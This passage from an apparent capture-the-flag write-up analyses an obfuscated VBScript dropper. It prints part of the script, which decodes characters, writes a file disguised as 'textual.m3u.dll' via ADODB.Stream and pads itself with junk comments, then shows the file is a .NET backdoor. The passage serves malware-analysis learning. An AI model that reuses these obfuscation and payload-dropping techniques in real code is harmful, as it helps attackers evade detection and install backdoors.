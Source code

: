 ```vb
KkF = KkF & ChrW(Iztv(gmG) - ((6842 - 6781.0) - (89 + (-(37 + (0.0))))))
REM rusk hiss Fallopian tray USPS Moloch sigma cardiology marksman swishy Elaine seventh skyline molecular oriole Garcia tableau cusp 
End if
' invalidate Hyde trap refuge phenotype import stain dram salvage metro Giovanni cage crossword raindrop grub behead aerie referred lever 
Next
polymerase = KkF
End Function

Dim Creon:Set Creon = CreateObject("ADO"+"DB.S"+"tr"+"eam")
With Creon
.Type = 2
.Charset = "ISO-8859-1"
.Open()
' astatine,  1470074 hydronium181 Hoover controversial sportswear wander277 inertia homeland homotopy pegging rural pyrotechnic rum had cartilage derivate pothole 
'For Each HCZ in 
HCZ=Array(Rk,xZ,Et,"...trim...",9,9,9,9)
.WriteText polymerase(HCZ)
REM foxhole antiquated ester Byronic. Bunyan plentiful modular demerit baldy grimace coup Nicodemus trigonometry chokeberry superfluous 
'Next
.Position = 0
.SaveToFile ".\textual.m3u.dll", 2 :'.SaveToFile hNZCG + "textual.m3u", 2
REM snotty Chantilly laughingstock caiman Douglas heavy,  1493934 monitory hysteresis,  4255886 arsenide Bryant Grecian, baseband sixfold,  1631541 retroactive Afghanistan cleanup. slid abbey, archbishop pyrolyse gules 
.Close
End With
```

If I run this file, we get all ofthe output of our previous runs (because I didn't really clean those up), but we get a new file.
```shell
C:\Users\sreisz\Desktop\precious_guidance
λ cscript experiment.vbs
# ...trim...
C:\Users\sreisz\Desktop\precious_guidance
λ ls -la textual.m3u.dll
-rw-rw-rw-   1 user     group        8192 May 19 13:55 textual.m3u.dll

C:\Users\sreisz\Desktop\precious_guidance
λ file textual.m3u.dll
textual.m3u.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

Since the DLL is a .NET assembly, we can use [dnSpy](https://github.com/dnSpyEx/dnSpy) to decompile it, and we find that it is a backdoor. We also find that the file was originally was compiled as `intcomm.dll`.

![Pasted_image_20220519155934.png](https://an00brektn.github.io/img/htb-cyber-apocalypse-22/Pasted%20image%2020220519155934.png)
Notice that the password is built as what seems to be a hexstring. If we decode it using CyberChef (or your preferred method of unhex-ing data), we get the flag.
